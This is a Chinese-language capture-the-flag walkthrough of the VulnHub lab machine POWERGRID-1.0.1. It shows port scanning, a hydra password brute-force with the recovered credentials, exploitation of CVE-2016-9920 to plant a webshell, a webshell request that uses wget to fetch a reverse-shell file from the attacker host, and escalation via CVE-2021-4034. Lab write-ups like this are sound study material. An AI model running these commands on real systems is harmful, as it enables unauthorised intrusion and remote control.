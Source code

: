 ```yaml
---

title: Vulnhub	485	POWERGRID-1.0.1
date: 2020-05-28
---
```

考点：hydra,CVE
槽点：靶机三小时关闭，导入虚拟机后应及时快照。因为字典增大，三个小时内根本无法爆破成功。

靶机链接：<https://www.vulnhub.com/entry/powergrid-101,485/>
<!--more-->
## 环境配置

| 名称            | IP        |
| --------------- | --------- |
| Kali Linux      | 10.0.2.15 |
| POWERGRID-1.0.1 | 10.0.2.28 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.28
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: STARTTLS listed IMAP4rev1 LOGINDISABLEDA0001 more have Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 listed IMAP4rev1 have more Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
```

### WEB测试

```bash
$ gobuster dir --url http://10.0.2.28 -w /usr/share/wordlists/dirb/big.txt -x .php
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.28/images/]
/index.php            (Status: 200) [Size: 3644]                              
/server-status        (Status: 403) [Size: 274]                               
/zmail                (Status: 401) [Size: 456]                  
```

访问首页获得用户名三个，本地保存至文件`user`

![1](https://www.vulnhub.cn/walkthrough/485/1.webp)



访问zmail发现需要http认证

![2](https://www.vulnhub.cn/walkthrough/485/2.webp)

上hydra爆破

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.28 http-get /zmail 
```

获得用户名密码

用户 `p48`

密码 `electrico`

### 漏洞发现

再次访问

![4](https://www.vulnhub.cn/walkthrough/485/4.webp)

登录成功

![5](https://www.vulnhub.cn/walkthrough/485/5.webp)



对照<https://github.com/t0kx/exploit-CVE-2016-9920> 进行利用

![6](https://www.vulnhub.cn/walkthrough/485/6.webp)

## 获得权限

获得webshell，下载反弹shell

http://10.0.2.28/zmail/backdoor.php?cmd=wget http://10.0.2.24/reverse/r444.php 

访问http://10.0.2.28/zmail/r444.php后获得反弹shell

![7](https://www.vulnhub.cn/walkthrough/485/7.webp)



## 提权

使用CVE-2021-4034提权

![8](https://www.vulnhub.cn/walkthrough/485/8.webp)
